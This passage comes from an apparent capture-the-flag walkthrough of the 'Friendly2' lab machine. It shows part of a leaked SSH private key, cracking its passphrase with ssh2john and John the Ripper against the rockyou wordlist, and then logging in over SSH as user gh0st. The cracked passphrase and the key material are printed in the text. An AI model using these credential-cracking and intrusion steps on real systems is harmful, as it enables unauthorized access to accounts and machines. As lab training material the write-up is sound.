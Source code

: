 ```bash
VCnYqZAqxkXhN0Yoc0OU+jU6vNp239HbtaKO2uEaJjE4CDbQbf8cxstd4Qy5/MBaqrTqn6
UWWiM+89q9O80pkOYdoeHcWLx0ORHFPxB1vb/QUVSeWnQH9OCfE5QL51LaheoMO9n8Q5dy
bSJnR8bjnnZiyQ0AVtFaCnHe56C4Y8sAFOtyMi9o2GKxaXObUsZt30e4etr1Fg2JNY6+Ma
bS8K6oUcIuy+pObFzlgjXIMdiGkix/uwT+tC2+HHyAett2bbgwuTrB3cA8bkuNpH/sBfgf
f5rFGDu6RpFEVyiF0R6on6dZRBTCXIymfdpj6wBo0/uj0YpqyqFTcJpnb2fntPcVoISM7s
5kGVU/19fN39rtAIUa9XWk5PyI2avOYMnyeJwn3vaQ0dbbnaqckLYzLM8vyoygKFxWS3BC
6w0TBZDqQz36sD0t0bfIeSuZamttSFP1/pufLYtF+zaIUOsKzwwpYgUsr6iiRFKVTTv7w2
cqM2VCavToGkI86xD9bKLU+xNnuSNbq+mtOZUodAKuON8SdW00BFOSR/8EN7dZTKGipura
o8lsrT0XW+yZh+mlSVtuILfO5fdGKwygBrj6am1JQjOHEnmKkcIljMJwVUZE/s4zusuH09
Kx2xMUx4WMkLSUydSvflAVA7ZH9u8hhvrgBL/Gh5hmLZ7uckdK0smXtdtWt+sfBocVQKbk
eUs+bnjkWniqZ+ZLVKdjaAN8bIZVNqUhX6xnCauoVXDkeKl2tP7QuhqDbOLd7hoOuhLD4s
9LVqxvFtDuRWjtwFhc25H8HsQtjKCRT7Oyzdoc98FBbbJCWdyu+gabq17/sxR6Wfhu+Qj3
nY2JGa230fMlBvSfjiygvXTTAr98ZqyioEUsRvWe7MZssqZDRWj8c61LWsGfDwJz/qOoWJ
HXTqScCV9+B+VJfoVGKZ/bOTJ1NbMlk6+fCU1m4fA/67NM2Y7cqXv8HXdnlWrZzTwWbqew
RwDz5GzPiB9aiSw8gDSkgPUmbWztiSWiXlCv25p0yblMYtIYcTBLWkpK8DRkR0iShxjfLC
TDR1WHXRNjmli/ZlsH0Unfs0Vk/dNpYfJoePkvKYpLEi3UFfucsQH1KyqLKQbbka82i+v/
pD1DmNcHFVagbI9hQkYGOHON66UX0l/LIw0inIW7CRc8z0lpkShXFBgLPeg+mvzBGOEyq6
9tDhjVw3oagRmc3R03zfIwbPINo=
-----END OPENSSH PRIVATE KEY-----

```
As soon as the file has been saved we have to set the correct permission, otherwise we cannot use it.
```bash
┌──(emvee㉿kali)-[~/Documents/VPN/HTB/Friendly2]
└─$ chmod 600 id_rsa
```
We should try to crack the file with John The Ripprt to get a password.

```bash
┌──(emvee㉿kali)-[~/Documents/VPN/HTB/Friendly2]
└─$ ssh2john id_rsa > ssh.john

┌──(emvee㉿kali)-[~/Documents/VPN/HTB/Friendly2]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ssh.john  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
celtic           (id_rsa)     
1g 0:00:00:07 DONE (2024-01-28 20:22) 0.1379g/s 35.31p/s 35.31c/s 35.31C/s tiffany..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
We succeeded and have now a password. We are ready to rumble.

## Initial access
With the username, the SSH key and the password we can try to connect to the SSH service.
```bash
┌──(emvee㉿kali)-[~/Documents/VPN/HTB/Friendly2]
└─$ ssh gh0st@$ip -i id_rsa   
The authenticity of host '10.0.2.44 (10.0.2.44)' can't be established.
ED25519 key fingerprint is SHA256:YDW5zhbCol/1L6a3swXHsFDV6D3tUVbC09Ch+bxLR08.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.0.2.44' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Linux friendly2 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
```